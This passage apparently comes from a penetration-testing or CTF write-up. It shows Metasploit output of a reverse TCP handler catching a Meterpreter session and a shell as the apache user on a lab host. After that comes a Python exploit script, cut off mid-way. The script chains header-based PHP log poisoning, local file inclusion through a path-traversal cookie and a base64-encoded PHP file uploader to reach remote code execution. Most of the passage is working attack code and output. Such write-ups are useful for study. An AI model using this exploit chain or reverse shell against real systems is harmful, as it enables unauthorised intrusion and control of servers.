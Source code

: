[*] Started reverse TCP handler on 192.168.201.7:443
msf6 exploit(multi/handler) > [*] Sending stage (39282 bytes) to 192.168.201.3
[*] Meterpreter session 1 opened (192.168.201.7:443 -> 192.168.201.3:34320) at 2021-01-11 14:14:27 -0500
sess
[-] Unknown command: sess.

msf6 exploit(multi/handler) >
msf6 exploit(multi/handler) > sessions -i

Active sessions
===============

  Id  Name  Type                   Information            Connection
  --  ----  ----                   -----------            ----------
  1         meterpreter php/linux  apache (48) @ xenofon  192.168.201.7:443 -> 192.168.201.3:34320 (192.168.201.3)

msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 4454 created.
Channel 0 created.
id
uid=48(apache) gid=48(apache) groups=48(apache)
</pre>


<p style="text-align:justify;">
The following python script can be used in order to exploit the LFI vulnerability. More specifically the script uploads the php uploader on the server and then also uploads the <code  style="background-color: lightgrey; color:black;">rev.php</code> file. Finally, it opens a <code  style="background-color: lightgrey; color:black;">multi/handler</code> in order to handle connections. 
</p>


```python
import requests
import random,string
import os
import time 
from requests_toolbelt import MultipartEncoder

target = "192.168.201.3"
PHPSESSID="34944b90c16a24beeef88ff0b73e0691"

burp0_url = "http://"+target+"/listings.php?cmd=PGZvcm0gZ \
W5jdHlwZT0ibXVsdGlwYXJ0L2Zvcm0tZGF0YSIgYWN0aW9uPSJ5b2xvLnBocCIgbWV0aG9kPSJQT1NU \
Ij48aW5wdXQgdHlwZT0iaGlkZGVuIiBuYW1lPSJNQVhfRklMRV9TSVpFIiB2YWx1ZT0iNTEyMDAwIi8 \
%2BIFVwbG9hZCBmaWxlOiA8aW5wdXQgbmFtZT0idXNlcmZpbGUiIHR5cGU9ImZpbGUiIC8%2BPGlucH \
V0IHR5cGU9InN1Ym1pdCIgdmFsdWU9IlNlbmQgRmlsZSIgLz48L2Zvcm0%2BPD9waHAgJHVwbG9hZGZ \
pbGUgPSBiYXNlbmFtZSgkX0ZJTEVTWyd1c2VyZmlsZSddWyduYW1lJ10pO2VjaG8gIjxwPiI7aWYobW \
92ZV91cGxvYWRlZF9maWxlKCRfRklMRVNbJ3VzZXJmaWxlJ11bJ3RtcF9uYW1lJ10sICR1cGxvYWRma \
WxlKSl7ZWNobyAiRmlsZSBpcyB2YWxpZCwgYW5kIHdhcyBzdWNjZXNzZnVsbHkgdXBsb2FkZWQuCiI7 \
fWVsc2Uge2VjaG8gIlVwbG9hZCBmYWlsZWQiO31lY2hvICI8L3A%2BIjtlY2hvICc8cHJlPic7ZWNob \
yAnSGVyZSBpcyBzb21lIG1vcmUgZGVidWdnaW5nIGluZm86JztwcmludF9yKCRfRklMRVMpO3ByaW50 \
ICI8L3ByZT4iOz8%2B"

burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": \
    "<?$com=base64_decode($_GET['cmd']);$file=fopen('./comments/yo.php','w'); fwrite($file,$com); \
    fclose($file);phpinfo();?>", "Accept": "text/html,application/xhtml+xml,application/xml; \
        q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange; \
        v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", \
        "Accept-Language": "en-GB,en-US;q=0.9,en;q=0.8", \
        "Cookie": "PHPSESSID="+PHPSESSID+"; user=../../../../../proc/6642/fd/9%00", "Connection": "close"}

```
